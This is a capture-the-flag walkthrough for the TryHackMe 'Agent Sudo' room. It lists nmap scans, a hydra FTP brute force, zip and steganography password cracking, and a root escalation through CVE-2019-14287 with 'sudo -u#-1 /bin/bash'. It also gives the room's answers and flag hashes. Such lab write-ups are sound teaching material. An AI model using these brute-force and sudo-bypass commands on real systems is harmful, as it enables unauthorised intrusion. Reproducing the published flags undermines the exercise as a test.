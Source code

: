 ```yaml
---
description: 'https://tryhackme.com/room/agentsudoctf'
---
```


# Agent Sudo

## INIT

```text
export agentsudo=10.10.172.140
ping $agentsudo

echo "10.10.172.140 agentsudo.thm" >> /etc/hosts
```

## Task 2 Enumerate

```text
nmap -v -sC -sV -O -T5 -p1-65535 agentsudo.thm
```

### How many open ports?

![](../.gitbook/assets/image%20%28445%29.png)

{% hint style="success" %}
3
{% endhint %}

### How you redirect yourself to a secret page?

![](../.gitbook/assets/image%20%28432%29.png)

> Switch User-Agent to C

![](../.gitbook/assets/image%20%28396%29.png)

{% hint style="success" %}
User-Agent
{% endhint %}

### What is the agent name?

{% hint style="success" %}
Chris
{% endhint %}

## Task 3 Hash cracking and brute-force

### FTP password

```text
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 50
```

![](../.gitbook/assets/image%20%28401%29.png)

{% hint style="success" %}
crystal
{% endhint %}

### Zip file password 

![](../.gitbook/assets/image%20%28386%29.png)

```text
binwalk -e cutie.png

zip2john 8702.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28381%29.png)

{% hint style="success" %}
alien
{% endhint %}

### steg password 

```text
steghide extract -sf cute-alien.jpg
```

![](../.gitbook/assets/image%20%28417%29.png)

{% hint style="success" %}
Area51
{% endhint %}

### Who is the other agent \(in full name\)? 

{% hint style="success" %}
james
{% endhint %}

### SSH password

{% hint style="success" %}
hackerrules!
{% endhint %}

## Task 4 Capture the user flag

### What is the user flag?

![](../.gitbook/assets/image%20%28399%29.png)

{% hint style="success" %}
b03d975e8c92a7c04146cfa7a5a313c7
{% endhint %}

### What is the incident of the photo called?

```text
scp james@agentsudo.thm:/home/james/Alien_autospy.jpg .
```

![](../.gitbook/assets/image%20%28402%29.png)

{% hint style="success" %}
Roswell Alien Autopsy
{% endhint %}

## Task 5 Privilege escalation

```text
sudo -l
```

![](../.gitbook/assets/image%20%28431%29.png)

### CVE number for the escalation 

![](../.gitbook/assets/image%20%28382%29.png)

![](../.gitbook/assets/image%20%28436%29.png)

{% hint style="success" %}
CVE-2019-14287
{% endhint %}

### What is the root flag? 

```text
sudo -u#-1 /bin/bash
cat /root/root.txt
```

{% hint style="success" %}
b53a02f55b57d4439e3341834d70c062
{% endhint %}

### \(Bonus\) Who is Agent R?

![](../.gitbook/assets/image%20%28391%29.png)

{% hint style="success" %}
DesKel
{% endhint %}

